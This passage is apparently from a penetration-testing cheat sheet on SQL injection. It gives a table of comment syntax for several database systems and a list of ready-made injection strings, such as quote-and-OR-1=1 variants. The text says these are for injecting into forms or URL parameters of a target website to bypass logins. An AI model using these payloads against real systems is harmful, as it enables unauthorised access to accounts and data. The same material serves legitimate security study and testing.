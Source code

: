   

## [Comment Syntax](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#comment-syntax)

Comment syntax is depending on the database used in the website.

|DBMS|Comments|
|---|---|
|MySQL|`-- -` (add a space after `--`)|
||`#`|
||`/*comment*/`|
||`/*!comment*/`|
|MSSQL|`--`|
||`/*comment*/`|
|Oracle|`--`|
|PostgreSQL|`--`|
||`/*comment*/`|
|SQLite|`--`|
||`/*comment*/`|

  

## [Basic Injection](https://exploit-notes.hdks.org/exploit/web/security-risk/sql-injection-cheat-sheet/#basic-injection)

Check if we can inject SQL commands into forms or URL params in the target website.

```txt
' OR 1=1--
' OR 1=1-- -
' OR 1=1#

' OR '1'='1'--
' OR '1'='1'-- -
' OR '1'='1'#

' OR '1'='1--
' OR '1'='1-- -
' OR '1'='1#

" OR 1=1--
" OR 1=1-- -
" OR 1=1#

') OR 1=1--
') OR 1=1-- -
') OR 1=1#

'; OR 1=1--
'; OR 1=1-- -
'; OR 1=1#

admin or 1=1--
admin or 1=1-- -
admin or 1=1#
```
